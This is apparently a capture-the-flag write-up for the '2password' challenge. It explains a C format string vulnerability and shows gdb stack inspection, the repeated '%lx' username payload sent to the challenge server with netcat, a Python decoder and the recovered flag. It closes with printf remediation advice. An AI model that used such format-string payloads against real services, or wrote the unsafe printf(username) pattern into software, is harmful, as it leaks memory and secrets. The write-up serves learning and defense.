 
## Context

The `2password` program is an ELF command line executable that prompts the user for a username and two separate passwords. If all three values match what is expected, the string "Access Granted" is printed. In the context of this CTF challenge, the executable is running on a remote server and can be interacted with using a TCP client like netcat.

The C source code is given as part of the challenge, which tells us that the expected username is `kaiphait`, the first expected password is `correct horse battery staple` and the second password is the flag. Unfortunately, the flag is read from a text file named `flag.txt`, which is not given.

## Vulnerability

The input checking logic is implemented as follows:
```c
 char flag[42];
 readline(flag, sizeof flag, flag_file);
 if (strcmp(username, "kaiphait") == 0 &&
     strcmp(password1, "correct horse battery staple") == 0 &&
     strcmp(password2, flag) == 0) {
   puts("Access granted");
 } else {
   printf("Incorrect password for user ");
   printf(username);
   printf("\n");
 }
```

Note that the flag is loaded from disk regardless of whether or not the input credentials are valid. We can also note something very interesting: if the credentials are invalid, `printf` is called with the username as the format specifier string. Since `username` is user input, this makes this program open to a Format String Vulnerability.

Normally, the first argument passed to the `printf`function is the format string, that can optionally contain format specifiers such as `%d` or `%s` which in the output are replaced by the values given by the following arguments. If, however, the number of format specifiers in the format string is larger than the number of following arguments, `printf` will replace them by reading registers and the stack following the program's calling convention.

As this binary is an x86-64 ELF, the calling convention is *System V AMD64*:
| Argument | Register | Notes |
|----------|----------|------|
| 1st | `rdi` | Integer / Pointer |
| 2nd | `rsi` | Integer / Pointer |
| 3rd | `rdx` | Integer / Pointer |
| 4th | `rcx` | Integer / Pointer |
| 5th | `r8` | Integer / Pointer |
| 6th | `r9` | Integer / Pointer |
| 7th+ | Stack | Pushed **right to left** |

The format string itself is the first argument, so, if we can include 6 format specifiers in the username, `printf` should start leaking the stack!

## Exploit

Let's run the given binary in gdb to get a better understanding about how variables are laid out on the stack. I also created a file named `flag.txt` in the same directory with the following content:
```
AAAABBBBCCCCDDDD
```
This pattern should make it easy to recognize the flag in memory. Now, let's run the executable in gdb and enter the main function.

```
gdb ./chall
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04.2) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./chall...
(No debugging symbols found in ./chall)
(gdb) break main
Breakpoint 1 at 0x122d
(gdb) run
Starting program: /home/carl-vbn/chall
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x000055555555522d in main ()
```
We want to inspect the program's state just before `printf` is run, so we can set a breakpoint.

```
(gdb) disassemble main
   ...
   0x000055555555539e <+373>:   mov    %rax,%rdi
   0x00005555555553a1 <+376>:   mov    $0x0,%eax
   0x00005555555553a6 <+381>:   call   0x555555555070 <printf@plt>
   0x00005555555553ab <+386>:   mov    $0xa,%edi
   0x00005555555553b0 <+391>:   call   0x555555555030 <putchar@plt>
   0x00005555555553b5 <+396>:   mov    $0x0,%eax
   0x00005555555553ba <+401>:   leave
   0x00005555555553bb <+402>:   ret
End of assembler dump.
(gdb) break *0x00005555555553a6 
Breakpoint 2 at 0x5555555553a6
(gdb) continue
Continuing.
Enter username: %x %x %x %x %x %x %x
Enter password1: 1234
Enter password2: 5678
Incorrect password for user
Breakpoint 2, 0x00005555555553a6 in main ()
```
Now, let's print out the registers and the contents of the stack around the stack pointer
```
(gdb) info reg
rax            0x0                 0
rbx            0x0                 0
rcx            0x7ffff7ea1887      140737352702087
rdx            0x0                 0
rsi            0x7fffffffbb90      140737488337808
rdi            0x7fffffffdd40      140737488346432
rbp            0x7fffffffdd80      0x7fffffffdd80
rsp            0x7fffffffdcb0      0x7fffffffdcb0
r8             0x1c                28
r9             0x555555559890      93824992254096
r10            0x55555555608d      93824992239757
r11            0x246               582
r12            0x7fffffffde98      140737488346776
r13            0x555555555229      93824992236073
r14            0x555555557dd8      93824992247256
r15            0x7ffff7ffd040      140737354125376
rip            0x5555555553a6      0x5555555553a6 <main+381>
eflags         0x202               [ IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) x/40x $sp-20
0x7fffffffdc9c: 0x00007fff      0x00000006      0x00000000      0x5555539a
0x7fffffffdcac: 0x00005555      0x41414141      0x42424242      0x43434343
0x7fffffffdcbc: 0x44444444      0x00000000      0x00000000      0x00000006
0x7fffffffdccc: 0x80000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcdc: 0x00000000      0x38373635      0x00000000      0x00000000
0x7fffffffdcec: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcfc: 0x00000000      0x0000000d      0x00000000      0x00000001
0x7fffffffdd0c: 0x00000000      0x34333231      0x00000000      0x00000001
0x7fffffffdd1c: 0x00000000      0x55554040      0x00005555      0xf7fe283c
0x7fffffffdd2c: 0x00007fff      0x000006f0      0x00000000      0xffffe0e9
```
We can clearly see our test flag at address `0x7fffffffdcb0` (`0x41414141`, `0x42424242`, etc). Let's see what gets printed if we continue. The 7 `%x` format specifiers we passed into the username should read the 5 argument registers (not including the first specifying the format string itself) followed by two words from the stack in hexadecimal notation.

```
(gdb) continue
Continuing.
ffffbb90 0 f7ea1887 1c 55559890 41414141 43434343
[Inferior 1 (process 25044) exited normally]
```
As expected, the values of the rsi, rdx, rcx, r8 and r9 registers are printed followed by two stack words, which conveniently are also the first two words of the flag, or so I thought, until I realized that `0x42424242` was missing. This really confused me at first, until I remembered that this was a 64-bit program, meaning each word is 64 bits long, but `%x` only prints the lower 32. Using `%lx` instead led to the expected values being printed, although the byte order in each word gets flipped due to little endianness:
```
Enter username: %lx %lx %lx %lx %lx %lx %lx
Enter password1:
Enter password2:
Incorrect password for user 7ffcac71a3b0 0 7fb82dee1887 1c 5575f971e890 4242424241414141 4444444443434343
```

Let's see if this works on the challenge server as well.
```
nc chall.lac.tf 31142
Enter username: %lx %lx %lx %lx %lx %lx %lx
Enter password1:
Enter password2:
Incorrect password for user 7ffdbae40f20 0 7f79e5353887 1c 55f2e9610890 75687b667463616c 66635f327265746e
```
Converting the last two words to strings using ASCII decoding, we get `uh{ftcal` and `fc_2retn` respectively. The first one is very promising since, it matches the start of the flag prefix `lactf{`, but reversed (due to little endianness). I then kept adding `%lx` format specifiers until I got a null terminator, leading to the following output:  
```
nc chall.lac.tf 31142
Enter username: %lx %lx %lx %lx %lx %lx %lx %lx %lx
Enter password1:
Enter password2:
Incorrect password for user 7ffdcc557620 0 7f33626a7887 1c 5558a11fc890 75687b667463616c 66635f327265746e 7d38367a783063 0
```
I then wrote a short Python script to convert the numbers into a string using ASCII, correcting for endianness:
```py
words = ['75687b667463616c','66635f327265746e','7d38367a783063']
for w in words:
    for i in range(len(w)-2, -1, -2):
      print(chr(int(w[i:i+2],16)), end='')
```
Which gave me the full flag: `lactf{hunter2_cfc0xz68}`

## Remediation

The simplest way to prevent this attack is to consolidate the three `printf` statements into one, so instead of:
```c
printf("Incorrect password for user ");
printf(username);
printf("\n");
```
We would have:
```c
printf("Incorrect password for user %s\n", username);
```

Generally, the first argument of `printf` should never be user input. If we want to print a variable string using `printf`, it should be done like this:
```c
printf("%s", variable_string); // No format specifier injection possible
```

